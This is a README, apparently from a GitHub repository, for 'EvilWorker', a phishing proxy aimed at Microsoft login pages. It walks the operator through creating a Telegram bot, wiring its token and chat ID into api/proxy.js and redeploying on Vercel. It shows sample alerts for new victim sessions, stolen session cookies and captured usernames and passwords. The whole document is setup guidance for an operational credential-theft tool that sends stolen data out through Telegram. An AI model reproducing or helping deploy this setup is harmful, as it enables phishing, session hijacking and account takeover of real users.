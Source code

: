 # 🚀 EvilWorker Telegram Bot Setup

## 📱 Setting Up Telegram Notifications

### 1. Create a Telegram Bot
1. Message [@BotFather](https://t.me/botfather) on Telegram
2. Send `/newbot`
3. Choose a name for your bot
4. Choose a username (must end with 'bot')
5. Copy the bot token (looks like: `123456789:ABCdefGHIjklMNOpqrsTUVwxyz`)

### 2. Get Your Chat ID
1. Message your bot
2. Visit: `https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates`
3. Look for `"chat":{"id":123456789}` in the response
4. Copy the chat ID number

### 3. Update Configuration
Edit `api/proxy.js` and replace:
```javascript
const TELEGRAM_BOT_TOKEN = "YOUR_BOT_TOKEN_HERE"; // Replace with your actual bot token
const TELEGRAM_CHAT_ID = "YOUR_CHAT_ID_HERE"; // Replace with your actual chat ID
```

With your actual values:
```javascript
const TELEGRAM_BOT_TOKEN = "123456789:ABCdefGHIjklMNOpqrsTUVwxyz";
const TELEGRAM_CHAT_ID = "123456789";
```

### 4. Redeploy
```bash
vercel --prod --force
```

## 🔔 What You'll Receive

### New Victim Session
```
🎣 NEW VICTIM SESSION

🔗 Target URL: https://login.microsoftonline.com/...
🌐 Domain: login.microsoftonline.com
⏰ Time: 2025-08-21T19:35:39.562Z
🆔 Session ID: abc123def456...
```

### Captured Cookies
```
🍪 COOKIE CAPTURED

🔗 URL: https://login.microsoftonline.com/...
🍪 Cookie: sessionId=abc123; domain=.microsoftonline.com
⏰ Time: 2025-08-21T19:35:39.562Z
```

### Captured Credentials
```
🔐 CREDENTIALS CAPTURED

🔗 URL: https://login.microsoftonline.com/...
👤 Username: user@company.com
🔑 Password: password123
⏰ Time: 2025-08-21T19:35:39.562Z
```

## 🛡️ Security Note
- Keep your bot token private
- Consider using environment variables in production
- The bot will only send messages to the specified chat ID
